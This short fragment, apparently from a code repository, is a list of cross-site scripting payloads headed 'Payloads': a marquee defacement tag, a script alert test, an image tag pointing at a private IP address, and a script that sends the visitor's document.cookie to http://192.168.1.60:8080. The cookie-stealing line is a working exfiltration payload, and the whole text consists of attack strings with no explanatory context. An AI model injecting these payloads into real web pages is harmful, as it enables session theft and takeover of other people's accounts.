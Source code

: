 Payloads
<marquee>PWNED</marquee>
<script>alert("XSS");</script>
<img src="http://192.168.1.60:8080">
<script>fetch("http://192.168.1.60:8080?cookie=" + document.cookie)</script>